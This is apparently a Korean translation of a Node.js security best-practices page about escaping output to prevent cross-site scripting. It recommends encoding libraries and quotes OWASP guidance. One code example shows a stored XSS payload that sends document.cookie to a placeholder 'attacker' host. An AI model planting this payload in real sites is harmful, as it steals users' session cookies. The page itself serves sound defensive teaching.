 # 출력을 이스케이프하라

### 한 문단 설명

HTML과 여타 웹 언어들은 내용을 실행가능 코드와 섞는다 - 단일 HTML 문단은 자바스크립트 실행 안내에 의거, 데이터의 시각적 표현을 포함하고 있을 것이다.
HTML을 랜더링 하거나 API로 부터 데이터를 반환하는 경우에 우리는 순수 content가 브라우저에서 해석되고 실행되는 자바스크립트 코드를 포함할 것으로 믿는다. 이러한 것은 예를들어 우리가 해커가 데이터베이스에 심어둔 content - 예를들어 `<div><script>//malicious code</script></div>`를 랜더링할 때 발생한다. 브라우저에게 신뢰할 수 없는 데이터 청크를 절대 해석하지 않아야하는 하는 것이라 가르쳐 줌으로써 이 문제를 완화할 수 있다 - 이 기술을 이스케이핑이라 부른다. 많은 npm 라이브러리들과 HTML 템플릿 이스케이핑 기능을 제공한다. (예: [escape-html](https://github.com/component/escape-html), [node-esapi](https://github.com/ESAPI/node-esapi)). HTML 뿐 아니라 CSS와 자바스크립트 content 또한 이스케이프 되어야한다.

### 코드 예시 - 너의 HTML에 신뢰되지 않은 데이터를 넣지 마라.

```javascript
<script>...신뢰할 수 없는 데이터를 절대 여기 올리지 마라...</script>   directly in a script

 <!--...신뢰할 수 없는 데이터를 절대 여기 올리지 마라...-->             inside an HTML comment

 <div ...신뢰할 수 없는 데이터를 절대 여기 올리지 마라...=test />       in an attribute name

 <신뢰할 수 없는 데이터를 절대 여기 올리지 마라... href="/test" />   in a tag name

 <style>...절대 신뢰할 수 없는 데이터를 여기 올리지 마라...</style>   directly in CSS

```

### 코드 예시 - DB에 심어질 수 있는 악성 content

```javascript
<div>
  <b>A pseudo comment to the a post</b>
  <script>window.location='http://attacker/?cookie='+document.cookie</script>
</div>
```

<br/><br/>

### 블로그 인용: "문자가 해석되기 원치 않을 때"

다음의 블로그로 부터 [benramsey.com](https://benramsey.com/articles/escape-output/)

> 데이터는 너의 애플리케이션이 각 HTML, SQL, XML, WML의 폼으로 웹브라우저, 데이터베이스, RSS 리더, 무선기기 등으로 전송되게 할 것이다. 가능성은 무궁무진하다.
> 각각의 폼은 여타 일반적인 글자와 다르게 해석되는 그들만의 문자셋을 가지고 있다. 때에 따라 문자셋을 전송하여 해석되길 원할 수도 원치 않을 수도(유저 혹은 몇 다른 자원으로 부터 인풋이 들어오는 경우) 있기에 우리는 이 문자셋을 이스케이프해야한다.

> 이스케이핑은 또한 종종 인코딩이라고도 불리운다. 이것은 간단히 말해, 장차 해석되거나 실행되지 않는 형태로 데이터를 표현하는 처리과정을 말한다. 에를들어, HTML은 <strong> 태그가 특별한 의미를 가지고 있기 떄문에 웹브라우저에서 아래와 같은 문장을 굵은체로 렌더링할 것이다:
> <strong>This is bold text.</strong>
> 그러나 브라우저에서 태그를 랜더링하고 그들이 해석됨을 원치 않음을 가정해 보아라. 그땐, HTML에서 특수한 의미를 지니는 각진 괄호를 이스케이프 해야한다. 다음은 이스케이프된 HTML을 보여준다:

&lt;strong&gt;This is bold text.&lt;/strong&gt;

<br/><br/>

### 블로그 인용: OWASP는 보안-집중 인코딩 라이브러리의 사용을 권장한다.

OWASP의 블로그로 부터 [XSS (Cross Site Scripting) Prevention Cheat Sheet](<https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>)

> "이러한 인코더들을 작성함은 그렇게 어렵진않다. 그러나 꽤 많은 함정이 존재한다. 예를들어, 자바스크립트에서 \와 같은 이스케이핑 숏컷을 사용하고자 하는 유혹을 느낄것이다." 하지만, 이러한 밸류들은 위험하고 브라우저의 nested-parer에 의해 잘못해석될 여지가 있다. 또한 안전해지려는 너의 노력을 무효화 하는 데 사용할 수 있는 이스케이프 문자를 이스케이프 하는 것을 까먹을 수 있다. **OWASP는 이러한 규칙들이 올바르게 수행되게 하도록 보안-집중 인코딩 라이브러리를 사용할 것을 권장한다**."

<br/><br/>

### 블로그 인용: "일부 HTML을 위해 이스케이프 구문을 반드시 사용하여야 한다.You MUST use the escape syntax for the part of the HTML"

OWASP의 블로그로 부터 [XSS (Cross Site Scripting) Prevention Cheat Sheet](<https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>)

> "그러나 너가 신뢰할 수 없는 데이터를 <script>태그 안 어느곳이든, 혹은 onmouseover와 같은 이벤트 핸들러 어트리뷰트, 혹은 CSS 또는 URL에 집어넣는다면 HTML 엔티티 인코딩은 작동하지 않을 것이다. 따라서 너가 HTML 엔티티 인코딩을 모든 곳에 삽입하여도 XSS로 부터 자유롭지 못하다. 너가 신뢰할 수 없는 데이터를 넣는 HTML 도큐먼트 부분에 이스케이프 구문을 사용하여야 한다.
